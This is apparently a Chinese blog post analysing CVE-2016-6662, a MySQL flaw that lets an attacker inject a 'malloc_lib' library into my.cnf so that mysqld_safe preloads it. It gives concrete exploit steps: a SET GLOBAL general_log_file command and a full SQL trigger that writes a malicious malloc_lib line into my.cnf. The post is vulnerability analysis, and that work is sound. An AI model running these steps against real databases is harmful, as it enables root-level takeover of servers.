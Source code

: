 ```yaml
---
layout: post
title: "CVE-2016-6662-MySQL 'malloc_lib'变量重写命令执行分析"
---
```


![][1]

<!-- more -->

# 引用

* [【漏洞预警】Mysql代码执行漏洞，可本地提权（含exp，9/13 01点更新）](http://bobao.360.cn/learning/detail/3025.html)
* [【技术分享】CVE-2016-6662：Mysql远程代码执行/权限提升技术分析正式版（9/13 10:47更新）](http://bobao.360.cn/learning/detail/3027.html)

# 前言

今天有个关于MySQL的漏洞被披露出来，编号CVE-2016-6662。该漏洞主要涉及到 mysqld_safe 脚本中在加速/处理内存时会采用 “malloc_lib”变量作为辨别标记选择性加载(preload方式)比如tcmalloc之类的malloc库。不幸的的是这个变量可以被my.cnf所控制，导致my.cnf一旦被攻击者在mysql客户端篡改的话可以直接导致mysqld_safe所调用的mysqld进程执行权被控制。

**编者：原帖请移步** <http://bobao.360.cn/learning/detail/3025.html>

# 技术分析

具体的攻击思路前言部分基本已经表述出来，这里不再重述。笔者来看看漏洞作者在【1】中做了3种攻击方式。作者的思路基本是围绕着如何用这几种技巧写入 my.cnf 被mysqld_safe调用执行这个中心攻防点来进行。

我们先看看最简单的第1种方法

1. 采用 set global general_log 来绕过已存在文件（即my.cnf）

    1. 设置 my.cnf 为 mysql 用户所在权限的基础上

        ```
        # ll /etc/my.cnf
        -rw-r–r– 1 mysql mysql 380 Sep 12 23:18 /etc/my.cnf
        ```

    注：默认权限是root，但是不排除mysql集群使用时每个my.cnf是mysql组可读写；

    2. 开始攻击，各位直接看图吧

    注: 这里使用root登录，普通用户默认是没更改全局变量general_log_file 的权限

        ```
        mysql>  set global general_log_file = '/etc/my.cnf';
        ERROR 1227 (42000): Access denied; you need the SUPER privilege for this operation
        ```

        ![][2]
    
    攻击成功后的my.cnf

        ![][3]

2. 使用隐藏的/var/lib/mysql/.my.cnf 和 /var/lib/mysql/my.cnf

    这部分讲起来其实意义不大，就是历史原因造成这部分mysql数据目录下的my.cnf和.my.cnf。最糟糕的是这部分还是mysql用户组可以读写的目录。所以我们又能控制到my.cnf了。

    写入的方法有两种，一种还是方法一的变量，另一个是常见 INTO OUTFILE 文件注入技巧。

3. 作者考虑下了上面2种方式都是需要root/admin 组的权限，那换个带文件操作权限的普通用户呢？

    作者在假设攻击者还有文件权限的情况下使用写入触发器文件的方式来“提权”（注意是提权）执行这个触发器。

        ```
        CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
        AFTER INSERT
           ON `active_table` FOR EACH ROW
        BEGIN
           DECLARE void varchar(550);
           set global general_log_file='/var/lib/mysql/my.cnf';
           set global general_log = on;
           select "
        [mysqld]
        malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
         
        " INTO void;  
           set global general_log = off;
        END;
        ```

    接下来就等这个这个触发器在表被flushed的时候被触发了（说真的，笔者没实践这个步骤），比如：

        ```
        INSERT INTO `active_table` VALUES('xyz');
        ```

    这样我们就可以提权回到了步骤一。

    最后，关于PoC或相关的信息您可以直接访问【1】获得。作者其实在后面的so也提供一个很好的回写技巧，由于preload可以优先mysqld进程加载my.cnf，所以它就能修复my.cnf里的内容。

# 总结

这个漏洞的危害建立在一个你至少需要普通用户的基础上，危害程度得因人而异，不注意安全的可能使用的mysql是一大堆弱口令的root用户；注意安全的基本都是普通mysql用户；集群上启动MySQL进程的用户也是个需要考虑的；至于web注入点使用这个功能个人觉得可能就比较窄了。

MySQL的修复【２】选择的是对malloc_lib的路径进行限制 /usr/lib, /usr/lib64, /usr/lib/i386-linux-gnu, or /usr/lib/x86_64-linux-gnu；

最后，笔者认为MySQL对于这样一个漏洞的处理是一个不太负责任的处理，也没见进入“禁运期”和各大发行版进行沟通。这点是需要官方进行考虑和改进的。

# 参考

【1】 <http://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-　2016-6662.html>

【2】 <https://dev.mysql.com/doc/relnotes/mysql/5.5/en/news-5-5-52.html>

[1]: https://p5.ssl.qhimg.com/t01a933a4a4d5c4964f.png
[2]: https://p3.ssl.qhimg.com/t018ba2e3964c25ad31.png
[3]: https://p1.ssl.qhimg.com/t016105fcce5c4fac4e.png
